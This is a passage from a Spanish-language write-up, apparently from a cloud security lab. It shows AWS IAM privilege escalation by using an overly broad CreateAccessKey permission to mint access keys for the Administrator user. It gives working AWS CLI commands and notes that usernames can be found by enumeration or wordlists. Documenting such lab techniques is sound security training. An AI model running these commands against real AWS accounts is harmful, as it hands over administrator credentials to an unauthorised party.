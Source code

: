 ### &#x20;Explotación

Si se intenta añadir al usuario directamente al grupo de administradores no se podrá, generará un error

{% code overflow="wrap" %}
```
aws iam add-user-to-group --group-name Group-Root-Admin --user-name privesc4-CreateAccessKey-user --profile privesc4
```
{% endcode %}

<figure><img src="../../../.gitbook/assets/image (40).png" alt=""><figcaption></figcaption></figure>

Pero como el usuario <mark style="color:green;">**privesc4-CreateAccessKey-user**</mark> tiene la política de crear llaves de acceso de cualquier usuario ("Resource" : "\*"), entonces se puede crear llaves para un usuario administrador:

{% code overflow="wrap" %}
```bash
aws iam create-access-key --user-name Administrator --profile privesc4
```
{% endcode %}

<figure><img src="../../../.gitbook/assets/image (27).png" alt=""><figcaption></figcaption></figure>

{% hint style="info" %}
Es importante saber el nombre del usuario a generar la llave en el parámetro `--user-name <Name>`

Se podrían conocer los usuarios por medio de enumeración de IAM o por algun diccionario.
{% endhint %}

